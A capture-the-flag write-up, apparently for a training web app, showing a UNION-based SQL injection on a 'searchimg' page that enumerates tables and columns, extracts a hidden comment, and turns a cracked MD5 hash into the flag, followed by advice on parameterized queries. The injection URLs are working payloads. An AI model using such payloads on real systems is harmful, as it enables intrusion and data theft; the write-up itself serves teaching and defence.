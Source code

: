# Write-Up: SQL Injection Exploit

## Exploit Overview

This write-up details the steps taken to exploit an SQL injection vulnerability. The target is a web application that allows for unsafe SQL queries through a `searchimg` page. By leveraging `UNION SELECT` statements, we enumerate database schema, identify specific columns, and extract sensitive information to obtain the flag.

---

### Step 1: Enumerate Tables

Using the `information_schema.tables` view, we enumerate the tables in the active database schema.

#### Payload

```
http://192.168.1.33/?page=searchimg&id=5%20UNION%20SELECT%201,table_name%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20--%20&Submit=Submit#
```

#### Results

| ID | Title        | URL                           |
| -- | ------------ | ----------------------------- |
| 5  | Hack me ?    | borntosec.ddns.net/images.png |
| 5  | list\_images | 1                             |

---

### Step 2: Enumerate Columns

We focus on the `list_images` table and enumerate its columns using `information_schema.columns`.

#### Payload

```
http://192.168.1.33/index.php?page=searchimg&id=5%20UNION%20SELECT%20column_name,%20table_name%20FROM%20information_schema.columns%20--%20&Submit=Submit#
```

#### Results

| ID | Title        | URL     |
| -- | ------------ | ------- |
| 5  | list\_images | id      |
| 5  | list\_images | url     |
| 5  | list\_images | title   |
| 5  | list\_images | comment |

---

### Step 3: Extract Data from `comment` Column

We query the `list_images` table to extract the contents of the `comment` column, which does not display by default.

#### Payload

```
http://192.168.1.33/?page=searchimg&id=5%20UNION%20SELECT%20id,%20comment%20FROM%20list_images%20WHERE%20id=5%20--%20&Submit=Submit#
```

#### Results

| ID | Title                                                                              | URL                              |
| -- | ---------------------------------------------------------------------------------- | -------------------------------- |
| 5  | Hack me ?                                                                          | borntosec.ddns.net/images.png    |
| 5  | If you read this just use this md5 decode lowercase then sha256 to win this flag ! | 1928e8083cf461a51303633093573c46 |

---

### Step 4: Decode and Encrypt

#### Decode the MD5 Hash

The hash `1928e8083cf461a51303633093573c46` is decoded using [hashes.com](https://hashes.com/en/decrypt/hash):

- **Decoded Result:** `albatroz`

#### Encrypt in SHA-256

The decoded string `albatroz` is then encrypted into SHA-256 using [sha256.fr](https://www.sha256.fr/):

- **SHA-256 Hash:** `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## Final Flag

The resulting SHA-256 hash `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188` is the flag.

---

## How to Protect Against SQL Injection

To protect against SQL injection attacks, implement the following measures:

1. **Parameterized Queries:**

   - Use prepared statements with parameterized queries to prevent direct execution of user inputs.
   - Example in PHP using PDO:
     ```php
     $stmt = $pdo->prepare('SELECT * FROM list_images WHERE id = :id');
     $stmt->execute(['id' => $userInput]);
     ```

2. **Input Validation:**

   - Validate all user inputs to ensure they conform to expected formats (e.g., integers for IDs).

3. **Escaping Special Characters:**

   - Escape user inputs when constructing SQL queries to neutralize special characters like quotes and semicolons.



By implementing these practices, web applications can significantly reduce the risk of SQL injection attacks.

---

## Summary

Through SQL injection, we successfully enumerated tables and columns, extracted sensitive data, and completed the challenge by decoding and re-encrypting a hash to retrieve the flag. This highlights the importance of sanitizing user input and implementing parameterized queries to prevent SQL injection vulnerabilities.

